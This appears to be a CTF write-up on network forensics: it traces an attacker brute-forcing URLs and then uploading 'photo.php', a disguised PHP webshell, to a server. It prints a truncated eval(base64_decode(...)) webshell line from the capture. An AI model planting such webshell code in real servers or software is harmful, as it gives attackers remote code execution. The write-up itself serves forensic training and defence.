




# Webshell attack
In this CTF, our task is to analyze a network traffic capture of a server which has been infected. Our goal is to identify the malicious object and to get the attacker's domain.

**Disclaimer**: The purpose of this document is purely educational. It is intended to demonstrate cybersecurity techniques within a controlled environment, such as a Capture The Flag (CTF) competition. Any misuse of the information provided herein for unauthorized or illegal activities is strictly prohibited and is not the responsibility of the author. Moreover, I believe that I am not violating any rules by uploading these challenge solutions. However, if you find any content here that you think violates any rules, please contact me, and I will address the issue promptly.

When we open the capture we can see how the attacker is maybe trying to guess URLs through brute force.



As we continue analyzing the capture, we notice a POST request to an uploader.





This request uploads a file named **photo.php**, which, as you may guess, is not a photo but a file containing PHP code. Here, the attacker is trying to upload PHP code to the server in order to execute it. This is part of the code uploaded:
```
<?php eval(base64_decode(ZXZhbChiYXNlNjRfZGV...));?>
```

The uploaded code is essentially running base64-encoded commands. To further analyze the uploaded code, we need to decode it. Once we do this, we quickly discover the target domain.


